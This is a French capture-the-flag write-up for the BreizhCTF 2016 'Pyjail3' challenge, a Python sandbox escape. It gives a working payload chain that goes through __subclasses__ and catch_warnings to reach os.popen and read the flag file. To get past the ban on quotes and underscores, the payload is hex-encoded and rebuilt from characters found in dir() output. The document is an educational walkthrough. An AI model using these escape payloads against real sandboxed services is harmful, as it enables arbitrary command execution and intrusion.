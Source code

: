 # BREIZHCTF 2K16
** Chall:** Pyjail3
**Points:** 300 |
**Taux de réussite:** 7% |


Dans ce challenge on reste dans la même logique que les deux précédents (sortir du jail), sauf que cette fois ci on a plus droit au caractères suivants : " ' __ 

On peut directement eliminé l'approche utilisée pour le pyjail2 car on a plus de moyen d'envoyer une chaine de caractères au programme. Reste l'approche du payjail1, mais celle ci necéssite des caractères non autorisés dans ce chall :/

Après beaucoup de M&Ms et de l'eau du robinet :p 
En listant les outils qu'on a :
 - fonction dir
 - fonction _
 - declaration de variable de type autre que str (a = 2)

L'idée de contruire une chaine de caractères qui sera notre payload pour récupérer le flag semble la plus pertinente, on sait que notre payload est le suivant :

"""
>wclass = ().__class__.__base__.__subclasses__()[59]()
>print wclass._module.__builtins__['__import__']('os').popen('cat flag').read()
 """

En utilisant la fonction dir on peut instancier un objet de type str :
```
> a= 2
> print dir(a)
['__abs__', '__add__', '__and__', '__class__', '__cmp__', '__coerce__', '__delattr__', '__div__', '__divmod__', '__doc__', '__float__', '__floordiv__', '__format__', '__getattribute__', '__getnewargs__', '__hash__', '__hex__', '__index__', '__init__', '__int__', '__invert__', '__long__', '__lshift__', '__mod__', '__mul__', '__neg__', '__new__', '__nonzero__', '__oct__', '__or__', '__pos__', '__pow__', '__radd__', '__rand__', '__rdiv__', '__rdivmod__', '__reduce__', '__reduce_ex__', '__repr__', '__rfloordiv__', '__rlshift__', '__rmod__', '__rmul__', '__ror__', '__rpow__', '__rrshift__', '__rshift__', '__rsub__', '__rtruediv__', '__rxor__', '__setattr__', '__sizeof__', '__str__', '__sub__', '__subclasshook__', '__truediv__', '__trunc__', '__xor__', 'bit_length', 'conjugate', 'denominator', 'imag', 'numerator', 'real']
> b = dir(a)[0]
> print b
'__abs__'
```
Comme notre payload contient plein de caractères non alphabétiques il sera dur pour nous de les retrouver juste avec ce qu'on a, mais si on encode le payload en base 16 (hex) l'alphabet sera réduit à 16 caractères !
En plus pour notre objet de type str on a les deux méthodes "encode" et "decode" qui sont autorisées \o/

```
>print b.encode
<built-in method encode of str object at 0x7f942313e780>
>print b.decode
<built-in method decode of str object at 0x7f942313e780>
```

Reste plus qu'a contruire l'alphabet hexadecimal, on récupère d'abord le mot hex pour qu'on puisse le passer aux deux méthodes "encode" et "decode".
```
> hex = dir(a)[16][2:5]
> print b.encode(hex)
5f5f6162735f5f
```

Une fois cette opération possible on passe à l'étape suivante qui consiste en la création de l'alphabet hex : 
```
>tmp = [c.encode(hex) for c in dir(b)]
>print tmp
['5f5f6164645f5f', '5f5f636c6173735f5f', '5f5f636f6e7461696e735f5f', '5f5f64656c617474725f5f', '5f5f646f635f5f', '5f5f65715f5f', '5f5f666f726d61745f5f', '5f5f67655f5f', '5f5f6765746174747269627574655f5f', '5f5f6765746974656d5f5f', '5f5f6765746e6577617267735f5f', '5f5f676574736c6963655f5f', '5f5f67745f5f', '5f5f686173685f5f', '5f5f696e69745f5f', '5f5f6c655f5f', '5f5f6c656e5f5f', '5f5f6c745f5f', '5f5f6d6f645f5f', '5f5f6d756c5f5f', '5f5f6e655f5f', '5f5f6e65775f5f', '5f5f7265647563655f5f', '5f5f7265647563655f65785f5f', '5f5f726570725f5f', '5f5f726d6f645f5f', '5f5f726d756c5f5f', '5f5f736574617474725f5f', '5f5f73697a656f665f5f', '5f5f7374725f5f', '5f5f737562636c617373686f6f6b5f5f', '5f666f726d61747465725f6669656c645f6e616d655f73706c6974', '5f666f726d61747465725f706172736572', '6361706974616c697a65', '63656e746572', '636f756e74', '6465636f6465', '656e636f6465', '656e647377697468', '657870616e6474616273', '66696e64', '666f726d6174', '696e646578', '6973616c6e756d', '6973616c706861', '69736469676974', '69736c6f776572', '69737370616365', '69737469746c65', '69737570706572', '6a6f696e', '6c6a757374', '6c6f776572', '6c7374726970', '706172746974696f6e', '7265706c616365', '7266696e64', '72696e646578', '726a757374', '72706172746974696f6e', '7273706c6974', '727374726970', '73706c6974', '73706c69746c696e6573', '73746172747377697468', '7374726970', '7377617063617365', '7469746c65', '7472616e736c617465', '7570706572', '7a66696c6c']


> alphabet = tmp[0][5]+tmp[3][-5]
>print alphabet
12
```

Et on continue jusqu'à ce que :
```
>print alphabet
1234567890abcdef
```

Une fois l'alphabet prêt on encode les deux instructions de notre payload en hexa : 
```
>>> "wclass = ().__class__.__base__.__subclasses__()[59]()".encode('hex')
'77636c617373203d2028292e5f5f636c6173735f5f2e5f5f626173655f5f2e5f5f737562636c61737365735f5f28295b35395d2829'
>>> "print wclass._module.__builtins__['__import__']('os').popen('cat flag').read()".encode('hex')
'7072696e742077636c6173732e5f6d6f64756c652e5f5f6275696c74696e735f5f5b275f5f696d706f72745f5f275d28276f7327292e706f70656e282763617420666c616727292e726561642829'
```

Sachant que les deux méthodes "encode" et "decode" retournent une chaine de caractères comme résultat, l'idée est d'envoyer ces deux lignes en hex au programme et que le programme les décode pour les envoyer à la fonction "_" qui prend en paramètre une chaine de caractères.
En utilisant le petit programme python 'generator.py' on transforme le code hexa en plusieurs accès à la liste alphabet qui contient l'alphabet hexadécimal (ce qui nous permet d'envoyer au programme que des caractères autorisés).

Initialisation de la variable wcalss : 
```
> _((alphabet[6]+alphabet[6]+alphabet[5]+alphabet[2]+alphabet[5]+alphabet[12]+alphabet[5]+alphabet[0]+alphabet[6]+alphabet[2]+alphabet[6]+alphabet[2]+alphabet[1]+alphabet[9]+alphabet[2]+alphabet[13]+alphabet[1]+alphabet[9]+alphabet[1]+alphabet[7]+alphabet[1]+alphabet[8]+alphabet[1]+alphabet[14]+alphabet[4]+alphabet[15]+alphabet[4]+alphabet[15]+alphabet[5]+alphabet[2]+alphabet[5]+alphabet[12]+alphabet[5]+alphabet[0]+alphabet[6]+alphabet[2]+alphabet[6]+alphabet[2]+alphabet[4]+alphabet[15]+alphabet[4]+alphabet[15]+alphabet[1]+alphabet[14]+alphabet[4]+alphabet[15]+alphabet[4]+alphabet[15]+alphabet[5]+alphabet[1]+alphabet[5]+alphabet[0]+alphabet[6]+alphabet[2]+alphabet[5]+alphabet[4]+alphabet[4]+alphabet[15]+alphabet[4]+alphabet[15]+alphabet[1]+alphabet[14]+alphabet[4]+alphabet[15]+alphabet[4]+alphabet[15]+alphabet[6]+alphabet[2]+alphabet[6]+alphabet[4]+alphabet[5]+alphabet[1]+alphabet[5]+alphabet[2]+alphabet[5]+alphabet[12]+alphabet[5]+alphabet[0]+alphabet[6]+alphabet[2]+alphabet[6]+alphabet[2]+alphabet[5]+alphabet[4]+alphabet[6]+alphabet[2]+alphabet[4]+alphabet[15]+alphabet[4]+alphabet[15]+alphabet[1]+alphabet[7]+alphabet[1]+alphabet[8]+alphabet[4]+alphabet[11]+alphabet[2]+alphabet[4]+alphabet[2]+alphabet[8]+alphabet[4]+alphabet[13]+alphabet[1]+alphabet[7]+alphabet[1]+alphabet[8]).decode(hex))	

>print wclass
catch_warnings()
```

Récupération du flag :
```
> _((alphabet[6]+alphabet[9]+alphabet[6]+alphabet[1]+alphabet[5]+alphabet[8]+alphabet[5]+alphabet[14]+alphabet[6]+alphabet[3]+alphabet[1]+alphabet[9]+alphabet[6]+alphabet[6]+alphabet[5]+alphabet[2]+alphabet[5]+alphabet[12]+alphabet[5]+alphabet[0]+alphabet[6]+alphabet[2]+alphabet[6]+alphabet[2]+alphabet[1]+alphabet[14]+alphabet[4]+alphabet[15]+alphabet[5]+alphabet[13]+alphabet[5]+alphabet[15]+alphabet[5]+alphabet[3]+alphabet[6]+alphabet[4]+alphabet[5]+alphabet[12]+alphabet[5]+alphabet[4]+alphabet[1]+alphabet[14]+alphabet[4]+alphabet[15]+alphabet[4]+alphabet[15]+alphabet[5]+alphabet[1]+alphabet[6]+alphabet[4]+alphabet[5]+alphabet[8]+alphabet[5]+alphabet[12]+alphabet[6]+alphabet[3]+alphabet[5]+alphabet[8]+alphabet[5]+alphabet[14]+alphabet[6]+alphabet[2]+alphabet[4]+alphabet[15]+alphabet[4]+alphabet[15]+alphabet[4]+alphabet[11]+alphabet[1]+alphabet[6]+alphabet[4]+alphabet[15]+alphabet[4]+alphabet[15]+alphabet[5]+alphabet[8]+alphabet[5]+alphabet[13]+alphabet[6]+alphabet[9]+alphabet[5]+alphabet[15]+alphabet[6]+alphabet[1]+alphabet[6]+alphabet[3]+alphabet[4]+alphabet[15]+alphabet[4]+alphabet[15]+alphabet[1]+alphabet[6]+alphabet[4]+alphabet[13]+alphabet[1]+alphabet[7]+alphabet[1]+alphabet[6]+alphabet[5]+alphabet[15]+alphabet[6]+alphabet[2]+alphabet[1]+alphabet[6]+alphabet[1]+alphabet[8]+alphabet[1]+alphabet[14]+alphabet[6]+alphabet[9]+alphabet[5]+alphabet[15]+alphabet[6]+alphabet[9]+alphabet[5]+alphabet[4]+alphabet[5]+alphabet[14]+alphabet[1]+alphabet[7]+alphabet[1]+alphabet[6]+alphabet[5]+alphabet[2]+alphabet[5]+alphabet[0]+alphabet[6]+alphabet[3]+alphabet[1]+alphabet[9]+alphabet[5]+alphabet[5]+alphabet[5]+alphabet[12]+alphabet[5]+alphabet[0]+alphabet[5]+alphabet[6]+alphabet[1]+alphabet[6]+alphabet[1]+alphabet[8]+alphabet[1]+alphabet[14]+alphabet[6]+alphabet[1]+alphabet[5]+alphabet[4]+alphabet[5]+alphabet[0]+alphabet[5]+alphabet[3]+alphabet[1]+alphabet[7]+alphabet[1]+alphabet[8]).decode(hex))

BZH{wow super flag \o/}
```


